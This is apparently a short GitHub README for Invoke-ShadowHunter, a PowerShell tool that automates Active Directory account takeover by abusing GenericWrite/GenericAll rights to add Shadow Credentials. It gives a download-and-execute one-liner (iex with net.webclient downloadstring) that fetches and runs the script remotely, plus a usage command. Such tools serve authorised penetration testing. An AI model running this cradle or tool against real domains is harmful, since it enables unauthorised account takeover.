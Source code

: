 # Invoke-ShadowHunter
Automate accounts takeover by abusing GenericWrite/GenericAll rights to add Shadow Credentials

I'll add usage details soon, in the meantime, please watch the videos below

### Basic Usage:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-ShadowHunter/main/Invoke-ShadowHunter.ps1')
```

```
Invoke-ShadowHunter -Recursive
```

https://github.com/Leo4j/Invoke-ShadowHunter/assets/61951374/ae52d94f-0043-46fe-84fb-5ffc58e3efd4

### Add entries to the table and run:

https://github.com/Leo4j/Invoke-ShadowHunter/assets/61951374/ac71370e-4c51-4cbf-a702-2c01457cc8c7

### Dependencies

https://github.com/eladshamir/Whisker

https://github.com/GhostPack/Rubeus
